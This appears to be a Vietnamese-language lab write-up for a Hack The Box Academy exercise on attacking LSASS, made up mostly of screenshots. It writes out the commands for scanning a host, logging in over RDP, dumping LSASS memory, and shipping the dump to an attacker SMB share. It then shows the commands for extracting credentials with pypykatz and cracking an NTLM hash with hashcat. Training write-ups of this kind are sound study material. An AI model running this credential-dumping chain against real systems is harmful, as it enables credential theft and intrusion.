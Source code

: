 <h1>Attacking LSASS</h1>

![image](https://github.com/user-attachments/assets/cef1a406-7037-4174-ab60-27b9364d20f0)

![image](https://github.com/user-attachments/assets/bd099709-05b7-4261-9683-55e589629dde)

Như thông thường tôi dùng `nmap -sV 10.129.202.149` để check các port:

![image](https://github.com/user-attachments/assets/94b09b5f-2259-46b6-8d77-fa5d41620abc)

Thấy rdp là kết nối vào thôi `xfreerdp /u:'htb-student' /p:'HTB_@cademy_stdnt!' /v:10.129.202.149`:

![image](https://github.com/user-attachments/assets/8100db85-e609-40a8-a4fb-418d3e8a08e7)

![image](https://github.com/user-attachments/assets/9a29b1a6-7365-4f56-baa4-26bff5c9bfa6)

Bấm vào `create dump file` và nó sẽ được lưu vào đây:

![image](https://github.com/user-attachments/assets/20e2747c-7a85-42ac-9ef9-8287ae4ed584)

Bên máy của htb thì chạy `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-1594028` để hứng file từ máy target(window):

![image](https://github.com/user-attachments/assets/913a4de1-e81a-4385-aa97-b14faae000a8)

![image](https://github.com/user-attachments/assets/9bf9258f-7bba-46e9-9b50-175085d10e9d)

![image](https://github.com/user-attachments/assets/75ce42ef-0030-445b-a47c-f1eaf60b078e)

Và tôi đã có ngay file lsass.DMP và dùng [pypykatz](https://github.com/skelsec/pypykatz) để khai thác, có thể tải bằng `pip3 install pypykatz` và dùng luôn `pypykatz lsa minidump lsass.DMP` :

![image](https://github.com/user-attachments/assets/bfb46eef-39c0-4166-a344-31403e10bcca)

Và nhiệm vụ của tôi là tìm user Vendor:

![image](https://github.com/user-attachments/assets/0cfd2419-9d2f-4fce-9035-96aab3418877)

Tôi chạy `sudo hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 rockyou.txt` để brute force và đợi 1 chút là ra: 

![image](https://github.com/user-attachments/assets/f4d41aaf-59d4-407b-a59b-655b99ab77e7)

![image](https://github.com/user-attachments/assets/122064ab-418e-4855-bf19-e95c58f6fd1f)
